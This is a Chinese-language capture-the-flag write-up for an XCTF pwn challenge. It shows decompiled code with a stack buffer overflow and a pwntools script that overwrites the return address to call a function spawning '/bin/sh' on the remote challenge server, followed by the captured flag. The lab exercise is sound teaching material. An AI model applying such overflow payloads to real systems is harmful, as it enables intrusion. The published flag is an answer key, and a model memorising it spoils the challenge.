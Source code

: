https://adworld.xctf.org.cn/task/answer?type=pwn&number=2&grade=0&id=5053

# 分析

1. IDA分析

   ```
   int __cdecl main(int argc, const char **argv, const char **envp)
   {
     write(1, "Hello, World\n", 0xDuLL);
     return vulnerable_function();
   }
   ```

   ```
   ssize_t vulnerable_function()
   {
     char buf; // [rsp+0h] [rbp-80h]
   
     return read(0, &buf, 0x200uLL);
   }
   ```

   ```
   int callsystem()
   {
     return system("/bin/sh");
   }
   ```

   栈溢出，buf的长度是0x80,buf后面的数据如下：

   ![image-20210806230036469](images\image-20210806230036469.png)

   首先，有一个s，8个字节长度，其次是一个r，重点就在这，r中存放着的就是返回地址。即当read函数结束后，程序下一步要到的地方。就是callsystem函数，即可执行shell。

   ![image-20210806230333570](images\image-20210806230333570.png)

callsystem开始地址是0x400596

2. 编写python脚本

   ```
   from pwn import *
   
   context.arch = "amd64"
   
   payload = b'a'*0x88 + p64(0x400596)
   print(payload)
   
   io = remote('111.200.241.244',64529 )
   io.sendline(payload)
   io.interactive()
   ```

   在Kali中运行，得到flag：cyberpeace{edb01582c6791821bd215d68e1724c18}

   ![image-20210806230450884](images\image-20210806230450884.png)